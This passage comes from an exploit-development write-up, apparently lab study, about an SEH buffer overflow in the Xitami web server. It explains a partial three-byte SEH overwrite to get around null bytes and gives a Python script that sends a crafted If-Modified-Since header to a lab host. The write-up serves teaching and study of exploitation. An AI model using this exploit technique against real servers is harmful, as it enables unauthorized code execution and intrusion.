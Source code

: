 Looks like we were correct. 
![](/assets/images/CTP/xitamicorrect.JPG)

Time to find a `POP POP RET`. `!mona seh` nets us a small list of gadget addresses we can use; however, there is a problem. All of the addresses start with `00` which we cannot have in our shellcode. 

![](/assets/images/CTP/xitamiSEH.JPG)

The workaround here is that we need to overwrite only the first 3 bytes of the current SEH address and let the program fill in the nullbyte for us. To test this, let's send this payload with a 3 byte value for `seh`:
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "CCCC"

#PO @ 304
crash = "A" * 304
crash += nseh
crash += seh
crash += "D" * (1000 -len(crash))


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```
